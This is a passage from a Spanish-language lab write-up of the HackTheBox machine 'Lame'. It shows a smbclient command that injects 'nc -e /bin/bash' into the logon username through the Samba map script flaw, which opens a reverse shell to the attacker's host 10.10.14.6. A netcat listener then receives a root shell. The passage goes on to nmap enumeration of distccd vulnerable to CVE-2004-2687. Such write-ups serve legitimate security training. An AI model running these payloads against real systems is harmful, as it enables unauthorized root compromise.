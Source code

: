 Luego de revisar el exploit `unix/remote/16320.rb`, detectamos una vía potencial que permite ejecución remota de comandos `RCE` _remote command execution_ al momento de acceder, en caso de ser exitoso generamos un acceso a la máquina.

```bash
  ❯ smbclient //10.10.10.3/tmp -N --option='client min protocol=NT1' -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.6 4564`"'
  nohup: se descarta la entrada y se redirige la salida de error a la salida estándar
  Anonymous login successful
  Password:
  session setup failed: NT_STATUS_IO_TIMEOUT
```

Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `root`

```bash
  ❯ nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.10.3] 46709
  whoami
  root
```

<p align="center">
<img src="/assets/images/lame/03-intrusion.png">
</p>

## ENUMERACION DISTCCD
  
Vamos a realizar la búsqueda de posibles vulnerabilidades en el servicio `distcc`, investigando un poco, existe un script `distcc-cve2004-2687` de nmap que identifica si la versión de distcc es o no vulnerable.
  
```bash
  ❯ locate .nse | grep dist
  /usr/share/nmap/scripts/distcc-cve2004-2687.nse
  
  ❯ nmap -p3632 -Pn 10.10.10.3 --script=distcc-cve2004-2687
  PORT     STATE SERVICE
  3632/tcp open  distccd
  | distcc-cve2004-2687:
  |   VULNERABLE:
  |   distcc Daemon Command Execution
  |     State: VULNERABLE (Exploitable)
  |     IDs:  CVE:CVE-2004-2687
  |     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
  |       Allows executing of arbitrary commands on systems running distccd 3.1 and
  |       earlier. The vulnerability is the consequence of weak service configuration.
```